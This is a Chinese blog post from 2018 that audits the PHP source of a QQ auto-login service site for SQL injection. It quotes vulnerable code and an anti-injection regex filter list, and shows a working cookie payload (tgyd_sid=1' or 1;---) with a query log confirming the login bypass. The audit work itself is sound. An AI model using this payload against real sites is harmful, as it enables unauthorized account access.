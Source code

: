 ```yaml
---
title: 'PHP - 简单代码审计'
date: 2018-07-18 12:34:05
tags:
    - 'code audit'
    - 'PHP'
    - Web
    - '网络安全'
categories:
    - '技术分享'
---
```


翻网盘的时候翻到了一堆 `代挂网站源码` ，大概是以前和别人合作的时候别人给的参考网站，现在对其中部分代码进行一次简单的代码审计，本次主要审计外部变量造成的SQL注入，运行环境版本为 `PHP5`
<!-- more -->
程序代码给出下载：

[天高云淡V2免授权版1.20.7z](simple-code-audit/天高云淡V2免授权版1.20.7z)

## PHP的外部变量

| 变量名 | 说明 |
|-------|------|
| $_SERVER | 记录服务器信息 |
| $_POST | 记录请求表单 |
| $_GET | 记录请求GET参数|
| $_COOKIE | 记录请求的Cookies|

## 代码审计 

一般来说，对于源代码中的外部变量遵循一个铁则：

> 永远不要相信用户的输入

本次利用 `NotePad++` 对代码进行搜索并分析上下文来确定是否包含SQL注入。

*搜索变量*

![](simple-code-audit/1.png)

## 审计过程

一般来说，比较简单的PHP网站，一个PHP文件一个页面，没有使用框架，就基本上不会对外部变量进行过滤，从代码来看，代码的作者至少有3位：

**转义函数**

```php
function safestr($str){
	if(!get_magic_quotes_gpc()){
		return addslashes($str);
	}else{
		return $str;
	}
}
```

### 说明

`addslashes`() 函数返回在预定义字符之前添加反斜杠的字符串。

预定义字符是：
- 单引号（'）
- 双引号（"）
- 反斜杠（\）
- NULL

默认地，PHP 对所有的 GET、POST 和 COOKIE 数据自动运行 addslashes()。所以您不应对已转义过的字符串使用 `addslashes`()，因为这样会导致双层转义。遇到这种情况时可以使用函数 get_magic_quotes_gpc() 进行检测。

可以看到这里对输入的字符串进行一次过滤，使用的地方如：

> /find.php:1~6
```php
<?php
require_once('includes/common.php');
if($_POST['do']=='find'){
	session_start();
	$user=safestr($_POST['user']);
	$aqanswer=safestr($_POST['aqanswer']);
```

但是也有未使用的地方（此管理目录，虽然有注入点，但是需要管理员权限才可运行）：

> /admin/addfz.php:13~15
```php
$d_qq = $_POST['d_qq'];
$d_user_name = $_POST['d_user_name'];
$d_user_pwd = $_POST['d_user_pwd'];
```

**安全检测**

此份代码里包含了安全检测部分，检测输入变量是否包含恶意字符：

> /includes/360_safe3.php

*部分代码*

```php
...
$getfilter="'|(and|or)\\b.+?(>|<|=|in|like)|\\/\\*.+?\\*\\/|<\\s*script\\b|\\bEXEC\\b|UNION.+?SELECT|UPDATE.+?SET|INSERT\\s+INTO.+?VALUES|(SELECT|DELETE).+?FROM|(CREATE|ALTER|DROP|TRUNCATE)\\s+(TABLE|DATABASE)";
$postfilter="\\b(and|or)\\b.{1,6}?(=|>|<|\\bin\\b|\\blike\\b)|\\/\\*.+?\\*\\/|<\\s*script\\b|\\bEXEC\\b|UNION.+?SELECT|UPDATE.+?SET|INSERT\\s+INTO.+?VALUES|(SELECT|DELETE).+?FROM|(CREATE|ALTER|DROP|TRUNCATE)\\s+(TABLE|DATABASE)";
$cookiefilter="\\b(and|or)\\b.{1,6}?(=|>|<|\\bin\\b|\\blike\\b)|\\/\\*.+?\\*\\/|<\\s*script\\b|\\bEXEC\\b|UNION.+?SELECT|UPDATE.+?SET|INSERT\\s+INTO.+?VALUES|(SELECT|DELETE).+?FROM|(CREATE|ALTER|DROP|TRUNCATE)\\s+(TABLE|DATABASE)";
...
foreach($_GET as $key=>$value){ 
	StopAttack($key,$value,$getfilter);
}
foreach($_POST as $key=>$value){ 
	StopAttack($key,$value,$postfilter);
}
foreach($_COOKIE as $key=>$value){ 
	StopAttack($key,$value,$cookiefilter);
}
```

## 审计结果

从代码静态审计来看，注入点比较多，例如：

> /mgmt/qd.php:17 注入参数： POST:uin
```php
$qq=$_POST['uin'];
...
if (!$qqrow=$db->get_row("select * from {$prefix}qqs where qq='$qq' and uid='$userrow[uid]' limit 1")) {
```

### 可用注入

>/includes/common.php:77 注入参数：COOKIE:tgyd_sid **可用**
```php

$cookiesid = $_COOKIE['tgyd_sid'];

if ($cookiesid && $userrow = $db->get_row("select * from {$prefix}users where sid ='$cookiesid' limit 1")) {

    C('loginuser', $userrow['user']);

    C('loginuid', $userrow['uid']);

} 
```

### POST 实列

```
GET http://qq.atd3.org/includes/common.php HTTP/1.1
Host: qq.atd3.org
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie:tgyd_sid=1' or 1%3B --- 
X-Forwarded-For: 222.222.112.1

```

### 注入日志

```
180718 12:32:12	   16 Connect	root@localhost on 
		   16 Init DB	qq_tgyd
		   16 Query	set names utf8
		   16 Query	select * from tgyd_separate where urls='qq.atd3.org' limit 1
		   16 Query	select * from tgyd_webconfigs
		   16 Query	select * from tgyd_users where sid ='1' or 1; ---' limit 1
		   16 Quit	
```